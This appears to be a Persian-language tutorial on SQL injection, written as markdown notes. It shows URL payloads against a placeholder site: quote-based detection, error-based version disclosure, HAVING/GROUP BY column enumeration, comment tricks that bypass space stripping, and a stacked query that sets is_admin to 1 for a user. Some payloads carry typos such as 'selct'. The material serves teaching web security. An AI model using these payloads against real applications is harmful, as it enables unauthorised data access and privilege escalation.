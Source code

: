 <div dir="rtl" style="font-size:18px; text-align: justify">
در هر برنامه ای که ورودی داده های کاربر را می پذیرد و سپس این ورودی ها برای دسترسی به سرور پایگاه داده استفاده میشود
</div>

<div dir="rtl" style="font-size:18px; text-align: justify">
کاربر میتواند با تغییر کوکی ها یا header ها یا user-agent حمله ای به برنامه ما ترتیب دهد
</div>

<div dir="rtl" style="font-size:18px; text-align: justify">
اگر با یک مقدار که کاربر وارد میکند و خروجی خطا را به شما بازگردانده است یعنی برنامه راه کار مناسبی برای مدیریت داده های غیر منتظره استفاده نمیکند
</div>

```djangourlpath
http://vigtim.com/?category=attacker'
```

<div dir="rtl" style="font-size:18px; text-align: justify">
البته هر خطایی که برنامه میده لزما بر این نیست که برنامه بازه برای حمله sql-injection
</div>


<div dir="rtl" style="font-size:18px; text-align: justify">
کاربرد کوتیشن (') برای تشخیص آسیب پذیری:
</div>

```djangourlpath
http://vigtim.com/?category=bikes
http://vigtim.com/?category=bi''kes
```
<div dir="rtl" style="font-size:18px; text-align: justify">
اگر نتیجه نهایی هردو خروجی یکسان باشد یعنی خطا sql-injection وجود دارد.
</div>

<div dir="rtl" style="font-size:18px; text-align: justify">
با استفاده از database error میتوانیم اطلاعات مهم دیتابیس با توابع خود دیتابیس بفهمیم. مثل:
</div>

```djangourlpath
http://vigtim.com/?category=bikes' and 1=0/@version;--
```
<div dir="rtl" style="font-size:18px; text-align: justify">
این کار باعث میشه که یک خطا رخ بده چون تقسیم عدد صفر بر یک مقدار str باعث ایجاد خطا میشود و داخل اون خطا مقدار version@ برگردانده میشود.
</div>

<div dir="rtl" style="font-size:18px; text-align: justify">
یا اینکه میتونیم از دستورات خود SQL استفاده کنیم.
</div>

```djangourlpath
http://vigtim.com/?category=bikes' or having 1'='1
```

<div dir="rtl" style="font-size:18px; text-align: justify">
کویری بالا هم باعث ایجاد خطا میشود چون میگه که باید کویری group by داشته باشه که تو متن خطا میتونیم فیلد های استفاده شده تو select رو بفهمیم
</div>

<div dir="rtl" style="font-size:18px; text-align: justify">
با استفاده از اعداد و رشته های خاص میتوانیم این حمله رو انجام دهیم:
</div>

`
value' or '1' = '2
`

`
value' or 'ab' = 'a''b
`
<div dir="rtl" style="font-size:18px; text-align: justify">
میتوانیم از کامنت گذاری استفاده کنیم:
</div>

```djangourlpath
http://vigtim.com/?uid=45/* hello */
```
<div dir="rtl" style="font-size:18px; text-align: justify">
اگر برنامه فاصله را به صورت خودکار حذف کنه میتونیم با استفاده از کامنت این حذف فاصله رو دور بزنیم.
</div>

```djangourlpath
http://vigtim.com/?uid=45/* */ or /* */ 1=1
```

<div dir="rtl" style="font-size:18px; text-align: justify">
اول باید تمام فیلدهای داخل select را بدست بیارم:
</div>

```djangourlpath
http://vigtim.com/?uid=45;selct * from users having 1=1;--
```

<div dir="rtl" style="font-size:18px; text-align: justify">
همینطور ادامه میدیم تا همه فیلدها را بدست بیاریم
</div>

```djangourlpath
http://vigtim.com/?uid=45;selct * from users group by uid having 1=1;--
http://vigtim.com/?uid=45;selct * from users group by uid,user having 1=1;--
http://vigtim.com/?uid=45;selct * from users group by uid,user,is_admin having 1=1;--
...
```

<div dir="rtl" style="font-size:18px; text-align: justify">
بعد از شناسایی تمام ستون ها با این دستور:
</div>

```djangourlpath
http://vigtim.com/?uid=45;update users set is_admin = 1 where uid = 45;
```